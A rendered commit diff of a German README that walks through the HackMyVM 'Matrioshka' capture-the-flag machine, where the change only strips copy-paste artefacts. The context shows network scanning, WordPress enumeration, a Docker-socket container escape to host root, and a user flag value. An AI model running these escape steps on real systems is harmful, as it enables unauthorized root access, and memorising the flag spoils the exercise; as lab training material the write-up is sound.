

Before and after one commit to AlienTec1908/Matrioshka_HackMyVM_Medium, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -79,11 +79,6 @@ arp-scan -l | grep "PCS" | awk '{print $1}'
 # Ausgabe: 192.168.2.180
 
 
-
-IGNORE_WHEN_COPYING_START
-Use code with caution. Markdown
-IGNORE_WHEN_COPYING_END
-
 Die IP 192.168.2.180 wurde der /etc/hosts als matrioshka.hmv hinzugefügt.
 Port-Scan (nmap)
 
@@ -91,12 +86,6 @@ Ein umfassender Nmap-Scan offenbarte offene Ports und Dienste.
 
 
 nmap -sC -sS -sV -T5 -A 192.168.2.180 -p-
-
-
-
-IGNORE_WHEN_COPYING_START
-Use code with caution. Bash
-IGNORE_WHEN_COPYING_END
 
     Port 22/tcp: OpenSSH 9.2p1 Debian
 
@@ -107,12 +96,6 @@ HTTP Header Analyse (curl)
 
 
 curl -Iv http://matrioshka.hmv
-
-
-
-IGNORE_WHEN_COPYING_START
-Use code with caution. Bash
-IGNORE_WHEN_COPYING_END
 
 Die Header zeigten X-Powered-By: PHP/8.2.22 und einen Link-Header zu http://mamushka.hmv/index.php?rest_route=/, was auf WordPress hindeutet. mamushka.hmv wurde ebenfalls zur /etc/hosts hinzugefügt.
 WordPress REST API Enumeration
@@ -241,19 +218,10 @@ Als Root im HFS-Container wurde festgestellt, dass der Docker-Socket gemountet w
 docker ps # Zeigt laufende Container auf dem Host
 docker run -v /:/mnt --rm -it ubuntu:20.04 chroot /mnt bash
 
-
 In der neuen Shell (die Root-Zugriff auf das Host-Dateisystem hat):
-
 
 cd /root
 cat root.txt
-
-
-
-IGNORE_WHEN_COPYING_START
-Use code with caution. Bash
-IGNORE_WHEN_COPYING_END
-Erlangte Flags
 
     User Flag (user.txt): c8129b0390452d8378535cff76e0dde8
 
```
Also changed, not shown: other parts of README.md (+0 -6 lines).
